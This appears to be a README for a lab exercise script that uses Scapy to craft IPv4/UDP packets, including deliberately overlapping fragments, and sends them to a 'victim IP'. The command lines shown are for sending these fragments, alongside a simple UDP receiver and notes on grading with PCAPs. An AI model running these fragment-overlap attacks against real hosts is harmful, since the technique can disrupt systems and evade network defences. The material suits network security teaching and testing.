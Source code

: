 # IPV4 Fragment Overlap 


This script builds and emits IPv4/UDP packets and can:

send whole UDP/IP datagrams,

split a UDP datagram into proper (non-overlapping) IPv4 fragments, or

craft overlapping fragments (final-fragment overlap or continuous multiple overlaps).

Requirements

Python 3

Scapy (pip3 install scapy)

sudo / root privileges required to send raw packets

Optional: Wireshark/tcpdump for inspection

Quick usage
# Send non-fragmented UDP datagrams

sudo ./ip_fragment_overlap_attack.py --dst [Victim IP] --payload "Testing raw UDP/IP Datagram" --count 3

# Send proper fragments (non-overlapping)

sudo ./ip_fragment_overlap_attack.py --dst [Victim IP] --count 1 --payload "$(python3 -c 'print("B"*2000)')" --fragment --fragsize 1000 --id 50000

# Final-fragment overlap (last fragment overlaps previous)

sudo ./ip_fragment_overlap_attack.py --dst [Victim IP] --count 1 --payload "$(python3 -c 'print("A"*3000)')" --finaloverlap --fragsize 640 --id 43601

# Multiple overlapping fragments (each fragment overlaps previous)

sudo ./ip_fragment_overlap_attack.py --dst [Victim IP] --count 1 --payload "$(python3 -c 'print("A"*3000)')" --multipleoverlap --fragsize 640 --id 43601

# Write fragments to a PCAP instead of sending on-wire
sudo ./ip_fragment_overlap_attack.py --dst 192.168.19.174 --multipleoverlap -f --fragsize 32 --count 1 --pcap-out fragments.pcap


# Important flags (high-level)

--dst (required): target IP

--fragment / -f: enable fragmentation (proper fragmentation)

--finaloverlap: make the final fragment start earlier (overlap previous)

--multipleoverlap: generate a sequence of overlapping fragments

--fragsize: fragment payload size in bytes (must be multiple of 8)

--id: specify IP ID (optional)

--pcap-out <file>: write generated packets/fragments to a PCAP (no on-wire sends)

--count: number of datagrams to send

--payload: data string to carry in UDP payload

--help / -h: Show help message

Run a simple UDP receiver on the target VM:

# udp_server.py

import socket
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.bind(("0.0.0.0", 9999))    # choose a port you will send to
print("listening UDP on port 9999")
while True:
    data, addr = s.recvfrom(4096)
    print("got", len(data), "bytes from", addr, data)

Capture traffic with tcpdump -w fragments.pcap or open live in Wireshark.

Use --pcap-out to create PCAPs for offline grading.


# Output 

On success you’ll either:

see the UDP server print the received payload (proper fragmentation), or

see no delivery or malformed payload when overlapping mode is selected, and Wireshark will mark "Fragment overlap"/show conflicting bytes.

PCAP files created with --pcap-out are reproducible artifacts for grading.